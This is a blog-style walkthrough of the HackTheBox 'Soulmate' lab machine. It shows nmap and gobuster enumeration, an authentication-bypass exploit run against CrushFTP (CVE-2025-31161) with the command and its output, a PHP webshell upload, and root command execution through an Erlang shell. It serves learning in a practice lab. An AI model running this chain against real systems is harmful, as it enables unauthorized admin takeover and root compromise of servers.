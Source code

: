 ```yaml
---
layout: ../../layouts/post.astro
title: Soulmate Write-Up
description: A comprehensive writeup of the HackTheBox Soulmate machine.
dateFormatted: Oct 19, 2025
topic: ["Attack, HackTheBox"]
technologies: ["Linux", "HackTheBox"]
---
```


![pwn](https://i.imgur.com/W5RvROp.png)

## Overview

In HackTheBox's Soulmate machine, I exploited an unpatched CrushFTP instance on HackTheBox Soulmate machine to gain an initial foothold on the FTP web server. Followed by a PHP webshell for post-exploitation. Through the use of linPEAS, I ran automated enumeration to gain information on the user which revealed cleartext credentials to gain user access. Upon gaining access, I discovered a misconfigured Erlang service which reused those credentials and abused the erlang console by root command execution.


### Conducting initial recon through nmap to discover any open ports:

To confirm my VPN is connected correctly, and confirm the machine is reachable, I pinged the target machine IP address.

![ping](https://i.imgur.com/MqDxE2Z.png)


 `nmap -sV -p 1-65535 -T4 -A -v -Pn 10.10.11.86`

```bash
Nmap scan report for 10.10.11.86
Host is up (0.067s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://soulmate.htb/
```
### Findings
- Port 80 (HTTP)
- Port 22 (SSH)

### Troubleshooting 

Port 80 appears to be running nginx 1.18.0. Initially I tried just visiting `http://10.10.11.86`, which kept returning server not found errors. After doing some research, I found out I add to add the ip to the `/etc/hosts` file for it to correctly resolve to `http://soulmate.htb` For future notice, when the nmap scan returns something along the lines of "Did not follow redirect to `<hostname>`, you need to add the ip and hostname to the hosts file.

After adding the ip/hostname to the hosts file, we can view the web server running a dating website.

![soulmate](https://i.imgur.com/IwjdT7w.png)

### Directory Enumeration

Since port 10.10.11.86:80 is open and resolves to http://soulmate.htb, I ran a gobuster script against a wordlist to discover any subdomains/directories.

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate]
└─$ sudo gobuster vhost -u http://soulmate.htb -w /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt -append-domain -t 100
[sudo] password for assess: 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://soulmate.htb
[+] Method:                    GET
[+] Threads:                   100
[+] Wordlist:                  /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
Progress: 1613291 / 1613291 (100.00%)
===============================================================
Finished
===============================================================

```

GoBuster found a hit on `ftp.soulmate.htb/WebInterface/login.html`

Visting the URL, it appears to be a login screen for Soulmate's FTP server, CrushFTP.

Examining the network traffic, I believe I was able to identify the version of CrushFTP `11.W.657`.

![logincrush](https://i.imgur.com/nOr1h80.png)

Conducting vulnerability research on this version of CrushFTP led me to exploit-db, giving further details into CVE-2025-31161.

### Vulnerability

CrushFTP before 10.8.4 and 11.3.1 allows unauthenticated HTTP(S) port access and full admin takeover through a race condition and header parsing logic flaw in the AWS4-HMAC authorization mechanism. 

Exploiting this allows bypassing authentication and logging in as any known user (e.g. crushadmin)

-----------

Conducting further research into CVE-2025-31161 led me to a publicly available PoC.

```
https://github.com/Immersive-Labs-Sec/CVE-2025-31161
```
Running our exploit:

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user adminv2 --password admin123
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: adminv2
   [*] Password: admin123.
```

### Exploitation

Now that we have created and logged into our new admin account, we can succesfully login to the FTP web server.

Navigating to the admin console, there is a User Manager tab that shows all of the users with access to the CrushFTP server. Reviewing the users, it looks like Ben works in Soulmates IT/Web Department.

![users](https://i.imgur.com/1feG9lY.png)

Using the admin interface, I reset Ben's password and logged into his account and navigated to the webprod directory. I don't know how to write custom shells, so I found a PHP webshell on [GitHub](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and uploaded it into the webProd directory.

![webshell](https://i.imgur.com/lEcS1Xo.png)

Through the webshell, we were able to execute [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) and gain access to Ben's credentials in clear text, and logging in via SSH, gave us the user flag.

![user](https://i.imgur.com/pPppTGW.png)


### Gaining Root Access

Additionally, in the linPEAS output, we found several mentions of Erlang running on port 2222.

To login, we used Ben's original SSH credentials, and was able to gain access into the Erlang service running on root permissions.

Doing research on command execution in Erlang, I came across a vuln.be article explaining OS command execution.

![erlang](https://i.imgur.com/4j8yMOA.png)

So, lets try and find the root flag using this command execution

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate]
└─$ ssh ben@soulmate.htb
ben@soulmate.htb's password: 
Last login: Sun Oct 26 17:28:59 2025 from 10.10.14.200
ben@soulmate:~$ ls
user.txt
ben@soulmate:~$ cat user.txt
[DEPRECATED]
ben@soulmate:~$ ls
user.txt
ben@soulmate:~$ ssh ben@localhost -p 2222
ben@localhost's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> os:cmd("id").
(ssh_runner@soulmate)1> os:cmd("id").

"uid=0(root) gid=0(root) groups=0(root)\n"
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").

"[DEPRECATED]\n"
(ssh_runner@soulmate)3> 
```
### Ending Thoughts

As this was my first red team box, Soulmate was a great exercise for me to chain together small investigate hints to a full compromise of the system.
A couple technical takeaways for this machine:

- __Host and vhost discovery:__ The initial 'did not follow redirect' was a small clue that paid off huge once `soulmate.htb` was added to `/etc/hosts`. 
- __Patch Management:__ Discovering multiple vulnerabilities through CrushFTP, and Erlang through public PoC's was the pivot point that led from initial recon to full admin access. Patch Management is so important for organizations to address, this whole attack could have been prevented through the patching of CrushFTP. 
- __Enumeration:__ Using linPEAS for this machine worked out very well for automated enumeration, which gave me insight into what to dig into.
